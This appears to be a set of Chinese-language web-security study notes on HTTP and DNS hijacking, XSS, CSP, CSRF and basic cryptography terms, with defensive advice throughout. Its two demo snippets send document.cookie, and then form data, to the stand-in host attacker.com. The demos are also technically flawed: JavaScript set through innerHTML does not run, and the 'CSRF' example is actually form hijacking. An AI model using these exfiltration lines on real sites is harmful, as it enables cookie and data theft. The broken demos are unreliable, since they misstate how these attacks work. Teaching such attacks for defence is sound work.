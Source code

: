 
# HTTP 劫持、DNS 劫持与 XSS

- http 劫持是指攻击者在客户端和服务器之间同时建立了连接通道，通过某种方式，让客户端请求发送到自己的服务器，然后自己就拥有了控制响应内容的能力，从而给客户端展示错误的信息，比如在页面中加入一些广告内容。
- DNS 劫持是指攻击者劫持了 DNS 服务器，获得了修改 DNS 解析记录的权限，从而导致客户端请求的域名被解析到了错误的 IP 地址，攻击者通过这种方式窃取用户资料或破坏原有正常服务。
- XSS 是指跨站脚本攻击。攻击者利用站点的漏洞，在表单提交时，在表单内容中加入一些恶意脚本，当其他正常用户浏览页面，而页面中刚好出现攻击者的恶意脚本时，脚本被执行，从而使得页面遭到破坏，或者用户信息被窃取。
- 要防范 XSS 攻击，需要在服务器端过滤脚本代码，将一些危险的元素和属性去掉或对元素进行HTML实体编码。

# 什么是 CSP？
CSP（Content-Security-Policy）指的是内容安全策略，它的本质是建立一个白名单，告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦
截由浏览器自己来实现。

通常有两种方式来开启 CSP
- 一种是设置 HTTP 首部中的Content-Security-Policy
  
- 一种是设置 meta 标签的方式
   <meta http-equiv="Content-Security-Policy">
   
CSP 也是解决 XSS 攻击的一个强力手段

# xss和csrf 攻击


## XSS：

- XSS 是指跨站脚本攻击。攻击者利用站点的漏洞，在表单提交时，在表单内容中加入一些恶意脚本，当其他正常用户浏览页面，而页面中刚好出现攻击者的恶意脚本时，脚本被执行，从而使得页面遭到破坏，或者用户信息被窃取。

- 攻击者对客户端网页注入的恶意脚本一般包括 JavaScript，有时也会包含 HTML 和 Flash。有很多种方式进行 XSS 攻击，但它们的共同点为：将一些隐私数据像 cookie、session 发送给攻击者，将受害者重定向到一个由攻击者控制的网站，在受害者的机器上进行一些恶意操作。


- 要防范 XSS 攻击，需要在服务器端过滤脚本代码，将一些危险的元素和属性去掉或对元素进行HTML实体编码。

```javascript
<!-- index.html -->
<!DOCTYPE html>
<html>
<head>
  <title>XSS Attack Demo</title>
</head>
<body>
  <h1>XSS Attack Demo</h1>
  <div id="content"></div>
  <script src="payload.js"></script>
</body>
</html>


// payload.js
const maliciousScript = `
  const xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://attacker.com/steal-cookie?cookie=' + document.cookie, true);
  xhr.send();
`;

document.getElementById('content').innerHTML = maliciousScript;

```
在上述示例中，恶意脚本payload.js被注入到页面中。该脚本通过XMLHttpRequest发送GET请求，将页面中的Cookie信息发送给攻击者控制的服务器。


### XSS攻击可以分为3类：反射型（非持久型）、存储型（持久型）、基于DOM。



- 1、反射型 （Reflected XSS ） 发出请求时，XSS代码出现在url中，作为输入提交到服务器端，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器，最后浏览器解析执行XSS代码。这个过程像一次反射，所以叫反射型XSS。

- 2、存储型存  Stored XSS和 Reflected XSS的差别就在于，具有攻击性的脚本被保存到了服务器端（数据库，内存，文件系统）并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力。

- 3、DOM型 （DOM-based or local XSS） 即基于DOM或本地的 XSS 攻击：其实是一种特殊类型的反射型 XSS，它是基于 DOM文档对象模型的一种漏洞。可以通过 DOM来动态修改页面内容，从客户端获取 DOM中的数据并在本地执行。基于这个特性，就可以利用 JS脚本来实现 XSS漏洞的利用。

### 防范手段：
1. 输入过滤
2. 输出过滤
3. 加httponly 请求头  锁死cookie

## CSRF：Cross-site request forgery

```dotnetcli
1.  用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；
2.  在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；
3.  用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；
4.  网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；
5.  浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。 
```

```javascript
<!-- index.html -->
<!DOCTYPE html>
<html>
<head>
  <title>CSRF Attack Demo</title>
</head>
<body>
  <h1>CSRF Attack Demo</h1>
  <form id="transfer-form" action="http://bank.com/transfer" method="POST">
    <input type="hidden" name="amount" value="10000">
    <input type="submit" value="Transfer">
  </form>
  <script src="payload.js"></script>
</body>
</html>
// payload.js
const maliciousScript = `
  const form = document.getElementById('transfer-form');
  form.action = 'http://attacker.com/steal-data';
  form.submit();`;

eval(maliciousScript);
```
在上述示例中，恶意脚本payload.js被执行。该脚本修改了表单transfer-form的目标地址为攻击者控制的服务器，并提交表单。当用户点击"Transfer"按钮时，实际上会向攻击者服务器发送用户的敏感数据。


防御 CSRF 攻击有多种手段：

- 不使用cookie
- 为表单添加校验的 token 校验
- cookie中使用sameSite字段
- 服务器检查 referer 字段



# 身份验证过程中会涉及到密钥，对称加密，非对称加密，摘要的概念，请解释一下

密钥

密钥是一种参数，它是在明文转换为密文或将密文转换为明文的算法中输入的参数。密钥分为对称密钥与非对称密钥，分别应用在对称加密和非对称加密上。

对称加密

对称加密又叫做私钥加密，即信息的发送方和接收方使用同一个密钥去加密和解密数据。对称加密的特点是算法公开、加密和解密速度快，适合于对大数据量进行加密，常见的对称加密算法有 DES、3DES、TDEA、Blowfish、RC5 和 IDEA。

非对称加密

非对称加密也叫做公钥加密。非对称加密与对称加密相比，其安全性更好。对称加密的通信双方使用相同的密钥，如果一方的密钥遭泄露，那么整个通信就会被破解。而非对称加密使用一对密钥，即公钥和私钥，且二者成对出现。私钥被自己保存，不能对外泄露。公钥指的是公共的密钥，任何人都可以获得该密钥。用公钥或私钥中的任何一个进行加密，用另一个进行解密。

摘要

摘要算法又称哈希/散列算法。它通过一个函数，把任意长度的数据转换为一个长度固定的数据串（通常用 16 进制的字符串表示）。算法不可逆。



